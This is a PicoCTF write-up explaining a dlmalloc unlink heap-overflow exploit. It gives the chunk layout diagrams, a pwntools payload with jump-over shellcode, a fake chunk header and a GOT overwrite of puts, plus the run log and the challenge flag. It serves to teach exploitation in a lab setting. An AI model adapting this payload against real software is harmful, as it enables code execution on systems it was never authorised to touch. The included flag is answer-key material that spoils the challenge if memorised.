





# Heap overflow

## Background

This is a unlink method vulnerability in Doug Lea's malloc. The [hint](https://www.win.tue.nl/~aeb/linux/hh/hh-11.html) offers a well-written explanation. This challenge is an example taken from [Secure Coding in C and C++](https://www.amazon.com/Secure-Coding-2nd-Software-Engineering/dp/0321822137). A complete analysis of the example exists in the book (section 4.6, Doug Lea's Memory Allocator, a.k.a. `dlmalloc`), and this writeup is inspired by it.

Doug Lea’s malloc manages the heap and provides standard memory management. In dlmalloc, memory chunks are either allocated to a process or are free.



Free chunks are organized into double-linked lists. Each free chunk also contains forward and backward pointers to the next and previous chunks in the list to which it belongs. These pointers occupy the same 8 bytes of memory as user data in an allocated chunk. The first 4 bytes of both allocated and free chunks contain either the size of the previous adjacent chunk, if it is free, or the last 4 bytes of user data of the previous chunk, if it is allocated.

Both allocated and free chunks make use of a `PREV_INUSE` bit (represented by P in the figure) to indicate whether or not the previous chunk is allocated. Since chunk sizes are always a multiple of 2, the least significant bit is always empty and therefore can be used to indicate whether the previous chunk is in use or not.

Each double-linked list has a head that contains forward and backward pointers to the first and last chunks in the list



There are bins that hold chunks of a particular size to allow a correctly sized free chunk to be quickly found. Memory chunks are consolidated during the `free()` operation. The chunks before and after the chunk to be freed are inspected. If either of them is also free, it is merged with the chunk to be removed and the combined chunk is placed into the appropriate bin.

`unlink()` macro:

```c++
#define unlink(P, BK, FD) {
    FD = P->fd;
    BK = P->bk;
    FD->bk = BK;
    BK->fd = FD;
}
```



Steps to unlink:

1. `FD = P->fd;`: assigns FD so that it points to the next chunk in the list
2. `BK = P->bk;`: assigns BK so that it points to the previous chunk in the list
3. `FD->bk = BK;`: the forward pointer (FD) replaces the backward pointer of the next chunk in the list with the pointer to the chunk preceding the chunk being unlinked
4. `BK->fd = FD;`: the backward pointer (BK) replaces the forward pointer of the preceding chunk in the list with the pointer to the next chunk

The unlink technique is used to exploit a buffer overflow to manipulate the boundary tags on chunks of memory to trick the `unlink()` macro into writing 4 bytes of data to an arbitrary location.

## Problem

> Just pwn this using a heap overflow taking advantage of douglas malloc free program and get a flag. Its also found in /problems/heap-overflow_4_3753f93c50c60685d83eea78243a85a0 on the shell server. Source.

* [Program](./vuln)
* [Source](./vuln.c)

## Solution

1. Three buffers are allocated:

    ```c++
    fullname = malloc(666);
    name = malloc(66);
    lastname = malloc(66);
    ```

2. Visual of the heap after the allocations are done:

    ```
    ----------------+------------------------+---+
                    | 672                    | P |
    firstname -->   +------------------------+---+ --+
                    | User Data                  |   |
                    |                            |   |
                    |                            |   |
                    |                            |   | 666 bytes
                    |                            |   |
                    |                            |   |
                    |                            |   |
                    |                            | --+
    ----------------+------------------------+---+
                    | 72                     | 1 |
    name ------->   +------------------------+---+ --+
                    | User Data                  |   |
                    +                            +   |
                    |                            |   |
                    +                            +   | 66 bytes
                    |                            |   |
                    |                            |   |
                    +                            +   |
                    |                            | --+
    ----------------+------------------------+---+
                    | 72                     | 1 |
    lastname --->   +------------------------+---+ --+
                    | User Data                  |   |
                    +                            +   |
                    |                            |   |
                    +                            +   | 66 bytes
                    |                            |   |
                    |                            |   |
                    +                            +   |
                    |                            | --+
    ----------------+----------------------------+
    ```

    The sizes are a result of taking the size that the user requested, adding 4 for the size DWORD itself and rounding up to the next multiple of 8 bytes.

3. Because the vulnerable buffer is allocated in the heap and not on the stack, the attacker cannot simply overwrite the return address to exploit the vulnerability and execute arbitrary code. However, we can overwrite the length of the second chunk of memory, as shown below, because this boundary tag is located immediately after the end of the first chunk. 
4. We can overwrite the size field in the second chunk with the value `-4` by overflowing `fullname` by 4 bytes. Therefore, when `free()` attempts to determine the location of the third chunk by adding the size field to the starting address of the second chunk, it instead subtracts 4. `free()` is trying to determine if it should consolidate the first and second chunks. But, in order to determine if the second chunk is allocated, it needs to look at the `PREV_INUSE` bit of the third chunk. By setting the length to `-4` we can trick Doug Lea’s `malloc` into thinking that the start of the third contiguous chunk is 4 bytes before the start of the second chunk. If we write an even number (one where the `PREV_INUSE` is 0) in the 4 bytes before the length then `malloc` will see the second chunk as unallocated. Thus, the `free()` operation invokes the `unlink()` macro to consolidate the two chunks. 
5. It is recommended to send -4 for the bytes containing `PREV_INUSE` since this number is even, has no NULL bytes and is interpreted as a large unsigned int which ensures that no `fastbin`-related logic will be involved.
6. The payload we'll be sending as input for `gets(fullname)` will be as follows:

    ```python
    # jump over the nop area, which will be destroyed by `unlink()` and push the
    # address of the `win()` function to the return address
    shell_code = asm('jmp l1; nop;nop;nop;nop;nop;nop;nop;nop;nop;nop;nop;nop; l1: push {}; ret;'.format(hex(exe.symbols["win"])))
    # add the shellcode and pad to the end of the block of memory, then create
    # the heading of a new fake block of memory with the `PREV_INUSE` bit
    # set to 0 followed by setting the length of the next block (`name`) to `-4`, thus
    # dlmalloc will believe the third block's `PREV_INUSE` is 0 and that the second
    # block is unallocated and can be consolidated with the first block
    payload = shell_code + (b'B' * (664-len(shell_code))) + p32(-4, sign="signed")*2
    # finally, overwrite the forward pointer to the address of `puts()`
    # in the Global Offset Table (the function to overwrite the return address of)
    # and the backward pointer to the address for the function specified by the
    # forward pointer to return to (our shell code, which the program tells us the
    # location of when it runs)
    payload += p32(exe.got["puts"] - 12) + p32(address)
    ```

    The above shell code makes the heap loop as follows (as described in step 4):

    ```
    -------------0--+------------------------+---+
                    | 672                    | P |
    firstname -->   +------------------------+---+ --+
                    | shellcode + filler         |   |
                    |                            |   |
                    |                            |   |
                    |                            |   | 666 bytes
                    |                            |   |
                    |                            |   |
                    +----------------------------+   |
                    | 100                    | 0 | --+
    ----------------+------------------------+---+
                    | -4                     | 0 |
    name ------->   +------------------------+---+ --+
                    | exe.got["puts"] - 12       |   |
                    +----------------------------+   |
                    | address of firstname       |   |
                    +----------------------------+   | 66 bytes
                    |                            |   |
                    |                            |   |
                    |                            |   |
                    |                            | --+
    ----------------+------------------------+---+
                    | 72                     | 1 |
    lastname --->   +------------------------+---+ --+
                    | User Data                  |   |
                    |                            |   |
                    |                            |   |
                    |                            |   | 66 bytes
                    |                            |   |
                    |                            |   |
                    |                            |   |
                    |                            | --+
    ----------------+----------------------------+
    ```

7. The address -12 is included in the malicious argument so that the `unlink()` method overwrites the address of the `free()` library call with the address of the shellcode. The shellcode jumps over the first 12 bytes because some of this memory is overwritten by `unlink()` when making the assignment BK->fd = FD.
8. The "Adapted shellcode" section of the [hint](https://www.win.tue.nl/~aeb/linux/hh/hh-11.html) was influential in creating the shellcode. The simple way out is to prefix our favourite shellcode with a 12-byte header:

    ```
    eb 0a    jmp 1f
    90       nop
    90       nop
    90       nop
    90       nop
    90       nop
    90       nop
    90       nop
    90       nop
    90       nop
    90       nop
    1f:
    ```

9. Run the [script.py](script.py) to run the exploit and get the flag `python script.py USER=<username> PASSWORD=<password>`:

    ```
    [*] '~/Documents/PicoCTF/Binary Exploitation/Heap overflow/vuln'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments
    [+] Connecting to 2019shell1.picoctf.com on port 22: Done
    [*] <username>@2019shell1.picoctf.com:
        Distro    Ubuntu 18.04
        OS:       linux
        Arch:     amd64
        Version:  4.15.0
        ASLR:     Enabled
    [+] Opening new channel: 'pwd': Done
    [+] Receiving all data: Done (14B)
    [*] Closed SSH channel with 2019shell1.picoctf.com
    [*] Working directory: '/tmp/tmp.3yiJzWxN8Q'
    [+] Opening new channel: 'ln -s /home/<username>/* .': Done
    [+] Receiving all data: Done (0B)
    [*] Closed SSH channel with 2019shell1.picoctf.com
    [*] win address: 0x8048936
    [+] Starting remote process b'/problems/heap-overflow_4_3753f93c50c60685d83eea78243a85a0/vuln' on 2019shell1.picoctf.com: pid 1392682
    [*] fullname address: 0x92bc008
    [*] shellcode:
        00000000  eb 0c 90 90  90 90 90 90  90 90 90 90  90 90 68 36  │····│····│····│··h6│
        00000010  89 04 08 c3                                         │····│
        00000014
    [*] payload:
        00000000  eb 0c 90 90  90 90 90 90  90 90 90 90  90 90 68 36  │····│····│····│··h6│
        00000010  89 04 08 c3  42 42 42 42  42 42 42 42  42 42 42 42  │····│BBBB│BBBB│BBBB│
        00000020  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
        *
        00000290  42 42 42 42  42 42 42 42  fc ff ff ff  fc ff ff ff  │BBBB│BBBB│····│····│
        000002a0  1c d0 04 08  08 c0 2b 09                            │····│··+·│
        000002a8
    [+] picoCTF{a_s1mpl3_h3ap_222e5b52}
    ```

### Flag

`picoCTF{a_s1mpl3_h3ap_222e5b52}`
